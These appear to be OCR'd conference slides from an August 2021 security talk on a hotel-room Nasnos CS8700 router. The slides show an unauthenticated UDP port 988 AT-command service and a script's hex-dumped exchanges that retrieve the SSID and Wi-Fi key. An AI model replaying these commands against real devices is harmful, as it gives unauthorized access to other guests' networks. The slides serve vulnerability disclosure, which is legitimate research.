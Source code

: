 27

Exploitation
 Reverse engineering
 Analysis of the application does not show the key is generated  Same from the documentation of the Nasnos CS8700

August 2021

28

Exploitation
 Reverse engineering
 Analysis of the application does not show the key is generated  Same from the documentation of the Nasnos CS8700
 However, the analysis reveals another vulnerability: -- Packets are sent to the Nasnos router on UDP port 988 -- Remote configuration service from the Simple-WiFi UART -- Waits for AT instructions -- Read/write access to the router configuration -- No authentication

August 2021

29

Exploitation

$ python config.py ## sent to 192.168.2.1:988 (15 bytes): 0000 31 32 33 34 35 36 41 54 2b 4e 49 50 3d 3f 0d ## received (66 bytes): 0000 2b 4f 4b 3d 31 2c 22 31 39 32 2e 31 36 38 2e 32 0010 2e 31 22 2c 22 32 35 35 2e 32 35 35 2e 32 35 35 0020 2e 30 22 2c 22 31 39 32 2e 31 36 38 2e 32 2e 31 0030 22 2c 22 31 39 32 2e 31 36 38 2e 32 2e 31 22 0a ## sent to 192.168.2.1:988 (16 bytes): 0000 31 32 33 34 35 36 41 54 2b 53 53 49 44 3d 3f 0d ## received (27 bytes): 0000 2b 4f 4b 3d 22 4e 61 73 6e 6f 73 2d 43 53 38 37 0010 30 30 5f 32 66 61 61 22 0a 0a 00 ## sent to 192.168.2.1:988 (17 bytes): 0000 31 32 33 34 35 36 41 54 2b 45 4e 43 52 59 3d 3f ## received (8 bytes): 0000 2b 4f 4b 3d 32 0a 0a 00 ## sent to 192.168.2.1:988 (15 bytes): 0000 31 32 33 34 35 36 41 54 2b 4b 45 59 3d 3f 0d ## received (26 bytes): 0000 2b 4f 4b 3d 31 2c 31 2c 22 43 53 38 37 30 30 48 0010 30 30 46 30 36 32 22 0a 0a 00

123456AT+NIP=?.
+OK=1,"192.168.2 .1","255.255.255 .0","192.168.2.1 ","192.168.2.1".
123456AT+SSID=?.
+OK="Nasnos-CS87 00_2faa"...
123456AT+ENCRY=?
+OK=2...
123456AT+KEY=?.
+OK=1,1,"CS8700H 00F062"...

Fig.: Retrieving the configuration of the Nasnos access point

August 2021

30

Exploitation
 Another bedroom
 Left the place and travelled to another city  Came back to the hotel and got assigned to another bedroom
-- Key found for this room is CS8700H00A4F9 -- First access point key was CS8700H00F158

August 2021
